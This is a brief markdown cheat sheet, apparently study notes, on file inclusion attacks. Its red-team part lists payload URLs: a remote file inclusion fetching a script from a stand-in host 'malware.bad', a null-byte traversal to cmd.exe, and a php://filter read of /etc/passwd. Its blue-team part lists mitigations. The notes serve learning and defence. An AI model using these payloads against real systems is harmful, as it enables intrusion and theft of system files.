 # RedTeam

## Remote File Inclusion

*--> Attacker uploads file from external source*

1. Inject remote file from own server
    - https://example.com/login.php?user=http://malware.bad/malicious.php
2. Inject malicious script
   - https://example.com/login.php?user=malicious.php

## Local File Inclusion

*--> Attacker retrieves file that already exists on hosting server*

1. Null Byte Attack
   - https://example.com/login.php?user=../../Windows/system32/cmd.exe%00
   - %00 terminates string to avoid adherence of specific extension (e.g. .php)
2. Base64 encoded
   - ?user=php://filter/read=convert.base64-encode/resource=/etc/passwd
   - Decode the response to get target output
3. Fuzzing via Burpsuite Intruder (Directory Traversal)
4. LFI Suite:
   - [https://github.com/D35m0nd142/LFISuite](https://github.com/D35m0nd142/LFISuite)


# BlueTeam

## Best Practice
- Input Validation (Whitelisting allowed file extensions)
- Exclude the directory separators “/” 
- Patch php version regularly
